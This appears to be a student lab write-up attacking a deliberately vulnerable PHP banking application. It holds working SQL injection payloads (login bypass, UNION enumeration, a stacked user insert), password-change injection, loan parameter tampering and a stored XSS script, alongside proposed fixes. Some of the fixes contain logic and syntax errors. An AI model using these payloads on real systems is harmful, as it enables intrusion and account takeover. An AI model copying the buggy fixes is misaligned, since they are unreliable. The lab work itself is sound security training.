### Exercise 1: Setup

1. Installed MySQL and PHP 5.6.40
2. unzipped the contents in web root directory `/var/www/html`
3. Changed the `config.php` with valid db credentails and directory for web access.
4. Imprted the vbank.sql into the database

    ```sql
    mysql -u root -p vbank < vbank.sql
    ```
5. Application works as expected.


<br>
<hr>
<br>

### Exercise 2: : Client/Server Side Scripting

__1 : Identify a mechanism which protects the login process (not on the server) and
briefly describe the general security problem with this implementation.__
__Solution:__ 
-   The client side script restricts the user input to avoid any kind of injection or malicious payload that can be entered through the input form.
The following check is responsible for validation:


```javascript
function checkform() {
	loginform = document.loginForm;
	if (loginform) {
		var username = loginform.username.value;
		if (username.match("[^a-zA-Z0-9]")) {
			// something is wrong
			alert('Error: The username only allows letters and numbers as valid characters!');
			return false;
		} else {
			var password = loginform.password.value;
			if (password.match("[^a-zA-Z0-9]")) {
				// something else is wrong
				alert('Error: The password only allows letters and numbers as valid characters!');
				return false;
			}
		}
		document.loginForm.submit();
		return true;
	}
	return false;

```   


__Security problem :__
- Client can disable javascript to avoid validation, which can cause the application to allow  malicious payload and bypass the restriction imposed by the application
- The payload is sent using GET request (which can be observed from network tab)

```php
GET /htdocs/login.php?username=alex&password=test123
```

The above request can be captured and replayed without the need to enter the input in the form, which bypasses the imposed restriction


__2.__ 
    - __Step 1:__ capture the URL on login page on submit
    - __Step 2:__ modify the parameters (`username` and `password`) and submit through   browser or web proxy(in our case- ___burpsuite___)
    - __Step 3:__ send the request from the burpsuite and reload the page.
    - Payload used:  

```php
/htdocs/login.php?username=alex'%23&password=test123
```
> `%23` represents `#` to comment the succeding parameters




3. __Better solution:__
    - Validate the user input on the server side and return if input is other than the whitelisted characters  

    __Replace:__
    ```php
    $username = $_REQUEST['username'];
    $password = $_REQUEST['password'];
    ```


    __with:__  

    ```php
    $username = validate($_REQUEST['username']); 
    $password = validate($_REQUEST['password']); 

    function validate($data) {
        $data = trim($data);
        $data = stripslashes($data);
        $data = htmlspecialchars($data);
        return $data;
    }
    ```

- `mysql_real_escape_string()` can be also be used while inserting into the mysql

E.g:  
```php
$query = sprintf("SELECT * FROM users WHERE user='%s' AND password='%s'",
            mysql_real_escape_string($user),
            mysql_real_escape_string($password));
```


<br>
<hr>
<br>

### Exercise 3: SQL Injection

__1. Find a query to enter the system (without manipulating the data used by the
web application, you should get access on behalf of another user). Show this
query and briefly explain it using the source code at hand.__

__Solution:__


Query:
```sql
$sql = "SELECT * FROM " . $htbconf['db/users'] . " where " . $htbconf['db/users.username'] . "='$username' and " . $htbconf['db/users.password'] . "='$password'";
```
- The above query can be exploited by 
```sql
 "SELECT * FROM " . $htbconf['db/users'] . " where " . $htbconf['db/users.username'] . "='testuser'  and " . $htbconf['db/users.password'] . "='testpass' or '1'='1'";
```


__2. Fire your attack…!!!
Why is your attack successful? & which checks and mechanisms can prevent this
failure (mention at least two mechanisms).__
__Solution:__

- send the request modifying the get parameters  
```php
GET /htdocs/login.php?username=testuser&password=testpass'+or+'1'='1 
```

- Prevention
    - Validate user input on server side
    - use parameterized queries.
        - Example  
        ```sql
            $stmt = mysqli_prepare($dbc, "SELECT * FROM users WHERE username = ? AND password = ?");
                mysqli_stmt_bind_param($stmt, "s", $username);
                mysqli_stmt_bind_param($stmt, "s", $password);
                mysqli_stmt_execute($stmt);
 
        ```  


__3. Change the password of the user you are logged in with. Briefly describe your
actions and indicate the source code allowing for this attack.__
__Solution:__
**step 1**: find the page that is responsible for password change
    
```bash 
    $ grep -Ril "not changed"                              
    htbchgpwd.page
```  

**step 2:** Find query responsible for password change
```php

    $sql="SELECT ".$htbconf['db/users.password']." FROM ".$htbconf['db/users']." where ". $htbconf['db/users.id']."='".$_SESSION['userid']."' and ". $htbconf['db/users.password']."='".$http['oldpwd']."'";
```
 - query used to exploit (payload is part of form data)
 - Exploited using blind sql same way as in login page  

 ```php
    oldpwd=test'%20or%20'1'='1&newpwd1=test123&newpwd2=test123&submit=Submit
 ```

__4. Change the password of a known user (you know the login name of the user)!__
__Solution:__ 
- Navigate to `Change password`
- Enter `Old password` and `New password` fields
- Capture the request
- Change the form data to

```php
    oldpwd=test'%20or%20'1'='1&newpwd1=test1234&newpwd2=test1234&submit=Submit
 ```
 - Forward the request  .

 

 - Password has been successfully changed


<br>
<hr>
<br>

### Exercise 4: SQL Injection - continued

__1. Briefly describe how did you retrieve the information you need to create a new
user.__

__Solution:__
- To create a new user, we need to find the table name and column names


- Perform a UNION SELECT operation on login paramaters
- __step 1:__ Capture the request in burp on login submit 
- __step 2:__ send to repeater and change the request parameters as shown below to determine the number of columns  

    ```sql
        ' UNION SELECT NULL,NULL,NULL,NULL#
    ```
    ```sql
        ' UNION SELECT NULL,NULL,NULL,NULL,NULL#
    ```
    ```sql
        ' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL#   
    ```
    ```sql
        ' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL#   
    ```
    ```sql
        ' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#   
    ```

    - The above queries are concatenated to the username parameter(shown below) and sent one by one, all the payloads resulted in login failures and error messages, except when `SELECT` followed by 8 `NULL`, thus results the table has 8 columns.
    ```php
    GET /htdocs/login.php?username=alex%27%20UNION%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23&password=test123 
    ```
> **Note**: The above url is encoded before sending

> The decode request is 
    ```php  
    GET/htdocs/login.php?username=alex' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&password=test123
    ```
- __step 3:__ use the following request(added payload) to retrieve table names (encode the parameters to avoid bad request)
  
    ```php
         GET /htdocs/login.php?username=alex' and 1=2 union select 1,2,group_concat(table_name),4,5,6,7,8 from information_schema.tables where table_schema = database()#&password=test123
    ```

    

- __step 4:__ Retrive column names

    Payload used

    ```php
        GET /htdocs/login.php?username=alex'and 1=2 union select 1,2,3,group_concat(column_name),5,6,7,8 from information_schema.columns where table_schema = database() and table_name ='users'#&password=test123 
    ```  
    

__2. Briefly describe the actions required to create a new user.__

__solution__ 
- Since tablename, column names are known, append to the login request by terminating the username query and by insert the new user.
    payload used

    ```php
        GET /htdocs/login.php?username=alex'; INSERT INTO users(id, username, password,name,firstname) VALUES(99999,"charlie", "password123", 'charlie','chaplin')#&password=asd&password=test123
    ```
    
    <br>
    

__3. Give an additional precaution (apart from those you have given already) that
may prevent this manipulation.__
__Solution:__ Naive solution could be removing write permissions to the databse by normal users. But validating user input have better security.

__4. Implement at least one protection mechanism. Show it in action preventing SQL
injection.__
__Solution :__  
- stored procedures 
- ```php
        function get_result(\mysqli_stmt $statement){
            $result = array();
            $statement->store_result();
            for ($i = 0; $i < $statement->num_rows; $i++)
            {
                $metadata = $statement->result_metadata();
                $params = array();
                while ($field = $metadata->fetch_field())
                {
                    $params[] = &$result[$i][$field->name];
                }
                call_user_func_array(array($statement, 'bind_result'), $params);
                $statement->fetch();
            }
            return $result;
        }
    ```


- Perform sql injection with the same payload as before
- Submit the request
- Application throws error message, after adding the stored procedures tio prevent sql injection
- __Result:__



<br>
<hr>
<br>

### Exercise 5: Request Manipulation

__1. Install a tool which allows you to manipulate requests of your browser. Briefly
discuss your choice__
__Solution :__

Tool Installed: **Burpsuite**
Reason: Burpsuite is a web proxy which allows to intercept, replay request from browser and offers additional fetaures like sniper attack,decoding payloads.

__2. Briefly describe the steps to request a loan from your victim will benefit__  
__Solution__

- __step 1:__ configure web browser(change proxy settings) with burpsuite to intercept requests.
- __step 2:__ Turn on the intercpt in burp `proxy`. 
- __step 3:__ Go to ***Request a loan*** page and enter the required details and submit the request.
> As the request is clicked burpsuite should intercept the request

  

- __step 4:__ Modify  the Interest parameter from 4.2 to -4.2 (can be chnaged to whatever we want)  

  

- __step 5:__ forward the request. And Turn off the burp proxy
- __step 6:__ Modified Interest rate can be seen on `Loan Request confirmation`. Click `confirm`.  

    

- Loan sucess can be seen (Ignore the error messages)

  

- __step 7:__ To confirm go to `My Loans` page.  

  


__3. What enables this type of attack? Identify the respective source code and give
the vulnerability a name.__

__solution:__ Failing to server side validation of received parameters allow the attacker to modify the request and successfully execute.
Although adding client side validation have nos ignificant effect as this can be bypassed too.

- code responsible for allowing the attack

 ```php
	if(isset($http['submit']) && $http['submit'] == "Confirm") {
		$sql="update ".$htbconf['db/accounts']." set ".$htbconf['db/accounts.curbal']."=".$htbconf['db/accounts.curbal']." + \"".($http['loan'])."\", ".$htbconf['db/accounts.time']."=now() where ".$htbconf['db/accounts.account']."=\"".($http['creditacc'] ^ $xorValue)."\"";
		mysql_query($sql, $db_link);
		$sql="insert into ".$htbconf['db/loans']." (".$htbconf['db/loans.owner'].", ".$htbconf['db/loans.amount'].", ".$htbconf['db/loans.interest'].", ".$htbconf['db/loans.period'].", ".$htbconf['db/loans.debitacc'].", ".$htbconf['db/loans.creditacc'].", ".$htbconf['db/loans.time'].") values(".$_SESSION['userid'].",".$http['loan'].",".$http['interest'].",".$http['period'].",".($http['debitacc'] ^ $xorValue).",".($http['creditacc'] ^ $xorValue).", now())";
		mysql_query($sql, $db_link);
				var_dump($_SESSION);
		$_SESSION['success'] .= "<p>Loan granted</p>\n";
		htb_redirect(htb_getbaseurl().'index.php?page=htbaccounts');
		exit;
	}

 ```

 - As we can see the received data is used to query using mysql without validatng.
 - Akthough there is a validation on loan amount, which is not effective in stopping the attack.

```php
	if(!$http['loan'] || $http['loan'] <= 0) {
		$_SESSION['error'] .= "<p>You didn't specify a correct loan.</p><p>Please check your data and enter appropriate values!</p>";
		htb_redirect(htb_getbaseurl().'index.php?page=htbloanreq');
		exit;
	}
```

- Vulnerability Name : **Paramater Tampering Vulnerability**


__4. Show how to fix this vulnerability. Implement your patch and briefly summarize
your changes.__

__Solution:__

- Using server side validations on all input data
- Following validations will fix the vulnerability.  

```php
	if(!$http['interest'] || !$http['interest'] != 4.2){
			$_SESSION['error'] .= "<p>You didn't specify a correct Interest.</p><p>Please check your data and enter appropriate values!</p>";
		htb_redirect(htb_getbaseurl().'index.php?page=htbloanreq');
		exit;
	}

	if(!$http['period'] || !$http['period'] <= 0 || !is_int(http['period'])){
			$_SESSION['error'] .= "<p>You didn't specify a correct Period.</p><p>Please check your data and enter appropriate values!</p>";
		htb_redirect(htb_getbaseurl().'index.php?page=htbloanreq');
		exit;
	}
```

- **Result**  

  


<br>
<hr>
<br>

### Exercise 6: Cross Site Scripting - XSS

__1. Briefly explain what is an XSS attack in your own words?__
__Solution:__ Cross site scripting is a web vulnerability, where untrusted useer input is processed without sanity checks,  allowing  malicous scripts to be injected in to the application.

__2. Perform an XSS attack that opens a window with a nice message while another
user uses his account. Briefly describe the required actions.__
__Solution:__

- __step 1:__ Navigate to `Transfer Funds` page.
- __step 2:__ Enter `Destination Account No.` and `Amount` and in `Remark` enter the follwing script:  

    ```javascript
    <script>alert("Hello insider..");</script>  
    ```

       

- __step 3:__ Click on `transfer`. After successful transfer go to the destination account. Alert box can be seen the user navigates to account page.



__3. What obvious checks did the developers miss to apply?__
__Solution:__ User input is processed without validating(both on client and server side) and stored, allowing the attacker to execute the payload.


__4. Identify the respective source code and eliminate the vulnerability(ies). Briefly summarise your changes.__
__Solution:__

- Vulnerable code:  

    ```php
    $sql="insert into ".$htbconf['db/transfers']." (".$htbconf['db/transfers.time'].", ".$htbconf['db/transfers.srcbank'].", ".$htbconf['db/transfers.srcacc'].", ".$htbconf['db/transfers.dstbank'].", ".$htbconf['db/transfers.dstacc'].", ".$htbconf['db/transfers.remark'].", ".$htbconf['db/transfers.amount'].") values(now(), ".$htbconf['bank/code'].", ".($http['srcacc'] ^ $xorValue).", ".$http['dstbank'].", ".$http['dstacc'].", '".$http['remark']."', ".$http['amount'].")";
    $result = mysql_query($sql);

    ```

- Fixed code:   
    ```php
    $sql="insert into ".$htbconf['db/transfers']." (".$htbconf['db/transfers.time'].", ".$htbconf['db/transfers.srcbank'].", ".$htbconf['db/transfers.srcacc'].", ".$htbconf['db/transfers.dstbank'].", ".$htbconf['db/transfers.dstacc'].", ".$htbconf['db/transfers.remark'].", ".$htbconf['db/transfers.amount'].") values(now(), ".$htbconf['bank/code'].", ".($http['srcacc'] ^ $xorValue).", ".$http['dstbank'].", ".$http['dstacc'].", '".htmlspecialchars($http['remark'])."', ".$http['amount'].")";
    $result = mysql_query($sql);
    ```  
- Result:  

    


<br></br><br></br><br></br><br>
    
        
